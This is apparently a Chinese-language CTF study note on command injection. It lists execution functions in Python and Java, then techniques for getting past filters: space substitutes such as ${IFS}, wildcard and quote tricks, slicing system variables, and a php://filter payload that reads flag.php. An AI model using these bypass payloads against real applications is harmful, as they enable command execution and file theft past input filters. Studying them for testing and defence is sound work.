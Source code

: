python：

- system
- popen
- subprocess.call
- spawn

java：

- java.lang.Runtime.getRuntime().exec(command)

  

### 一些bypass

1. 空格：

   - %09(tab)、%20(space)、%0a(换行)、\t

   - `$9`(url编码下$9为linuxshell进程的第九个参数，始终为空字符)

   - `${IFS}`、`$IFS$9`、`$IFS%09`

   - `<>`、`<` （如cat<123）（输出、输出重定向）
     ( 利用输出作为输入：?a=flag.php -> ?a={ls,-l} )

     

2. 黑名单：

   - 通配符：

     - `*`0到无穷个任意字符
     - `?` 一个任意字符
     - `[ ]` 一个在括号内的字符，e.g. `[abcd]`
     - `[ - ]` 在编码顺序内的所有字符
     - `[^ ]` 一个不在括号内的字符

   - 夹杂字符：引号：(''、""、``) 、${x}、$1、转义字符\

   - `${}`:
     会识别包含的第一个字符，只要将第一个字符修改为如空格，tab，注释，回车就会避免被直接当成变量，而将其执行为PHP代码

     ps:在被“”包裹时候直接${}是不可以的，因为PHP将会将它识别为可变变量而不是一个PHP代码

     

3. 利用`系统变量`切片构造命令：
   	如/ = ${PATH:0:1} = /bin/xxx[0]



4. 过滤分号`;`

   - 可以用`?>`闭合<?php
     如：include%0a$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
   - 假如函数为system()这些命令执行函数，且输出会被重定向到/dev/null这种不可访问的地方
     可以用`;`来绕过，若过滤了分号可以用`%0a`(换行) 或者 &、|这些命令分隔符

   

5. 黑名单绕过

   - `a=l;b=s;$a$b`
